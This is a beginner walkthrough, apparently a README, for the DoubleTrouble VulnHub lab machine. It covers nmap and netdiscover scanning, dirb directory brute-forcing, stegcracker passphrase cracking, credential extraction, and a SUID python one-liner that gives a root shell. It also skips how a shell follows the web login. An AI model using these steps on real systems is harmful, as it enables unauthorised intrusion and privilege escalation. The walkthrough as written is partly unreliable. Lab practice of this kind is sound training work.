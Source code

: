 # 🕵️‍♂️ CTF-DoubleTrouble-Machine Walkthrough  

This walkthrough provides step-by-step guidance to complete the **DoubleTrouble CTF machine (VulnHub)**.  
It is beginner-friendly and demonstrates **reconnaissance, enumeration, exploitation using steganography, credential extraction, privilege escalation, and root flag capture**.  

---

## 📑 Table of Contents
1. [Introduction](#-introduction)  
2. [Prerequisites](#-prerequisites)  
3. [Reconnaissance](#-reconnaissance)  
   - [3.1 Getting Attacker and Target IP Addresses](#31-getting-attacker-and-target-ip-addresses)  
   - [3.2 Port Scanning with Nmap](#32-port-scanning-with-nmap)  
4. [Enumeration & Vulnerability Discovery](#-enumeration--vulnerability-discovery)  
5. [Exploitation: Hidden Files & Steganography](#-exploitation-hidden-files--steganography)  
6. [Credential Extraction and Login](#-credential-extraction-and-login)  
7. [Privilege Escalation & Root Flag](#-privilege-escalation--root-flag)  
8. [Conclusion & Next Steps](#-conclusion--next-steps)  

---

## 📘 Introduction  
This guide demonstrates how to enumerate and exploit the **DoubleTrouble machine**.  
We will cover:  
- Reconnaissance  
- Vulnerability discovery  
- Exploiting hidden files using **steganography**  
- Credential extraction  
- Privilege escalation to root  

---

## 🛠️ Prerequisites  
- **DoubleTrouble VM** imported and running in **VirtualBox/VMware**  
- **Kali Linux** machine on the same **NAT network**  
- Completed setup steps in [Environment_Setup.md](./Environment_Setup.md)  

---

## 🔍 Reconnaissance  

### 3.1 Getting Attacker and Target IP Addresses  

Check your attacker machine’s IP:  
```bash
ip a
➡️ Look for the IP on the eth0 interface (e.g., 10.0.2.5).
Discover the target VM’s IP using Nmap ping sweep:

nmap -sn 10.0.2.5/24
Alternatively, use Netdiscover for ARP scans:
sudo netdiscover -i eth0 -r 10.0.2.5/24
-i : Select network interface
-r : Range/subnet to scan
✅ Result: Target machine’s IP found → 10.0.2.4.
3.2 Port Scanning with Nmap
Run a full port scan with service/version detection:
nmap -p- -n -vvv -sCV 10.0.2.4
-p- → Scan all 65535 ports
-n → No DNS resolution
-vvv → Very verbose output
-sCV → Run default scripts & version detection
📸 Screenshot: Add results screenshot here → screenshots/nmap_results.png
Sample Output:

22/tcp   open  ssh
80/tcp   open  http
🧩 Enumeration & Vulnerability Discovery
Visit the target in your browser:
http://10.0.2.4/
You’ll see a qdPM | Login page.
➡️ Try wrong credentials — you get error messages hinting at weak handling.

Brute-force hidden directories using dirb:

dirb http://10.0.2.4/
Discovered Directories:
/backups/
/batch/
/core/
/css/
/images/
/install/
/js/
/secret/    <-- important!
/uploads/
🎭 Exploitation: Hidden Files & Steganography
Navigate to /secret/ and download the suspicious file:
wget http://10.0.2.4/secret/doubletrouble.jpg
Try extracting hidden data:
steghide --extract -sf doubletrouble.jpg
If prompted for a passphrase, crack it using stegcracker:
stegcracker doubletrouble.jpg /usr/share/wordlists/rockyou.txt
Output:
Password found: 92camaro
Now extract the hidden file:
steghide --extract -sf doubletrouble.jpg
# Enter password: 92camaro
View extracted credentials:
cat creds.txt
Expected Output:
otisrush@localhost.com
otis666
🔑 Credential Extraction and Login
Return to login page:
http://10.0.2.4/
Use the credentials:
Username: otisrush@localhost.com
Password: otis666
📸 Screenshot: Add login/foothold screenshot → screenshots/foothold.png
🛡️ Privilege Escalation & Root Flag
Once logged in as user, enumerate the system for privilege escalation.
Check user privileges:

id
sudo -l
Search for SUID binaries:
find / -perm -4000 2>/dev/null
You may find a vulnerable binary (example: /usr/bin/python with SUID bit set).
Exploit it for root shell:

python -c 'import os; os.setuid(0); os.system("/bin/bash")'
Confirm root access:
whoami
➡️ Output: root
Capture the root flag:

cat /root/root.txt
📸 Screenshot: Add privilege escalation screenshot → screenshots/privilege_escalation.png
🏁 Conclusion & Next Steps
🎉 You successfully gained root access on the DoubleTrouble machine using:
Reconnaissance with Nmap
Directory brute-forcing
Steganography to extract hidden credentials
Web login → user foothold
Privilege escalation to root
🔮 Next Steps
Practice automating parts of this process.
Try alternative privilege escalation methods.
Explore post-exploitation activities (persistence, pivoting, etc.).
Document everything in Project_Report.pdf.
💡 Tips
If any command fails, check network & IP addresses.
Explore man pages for tool usage:
man nmap
man dirb
man steghide
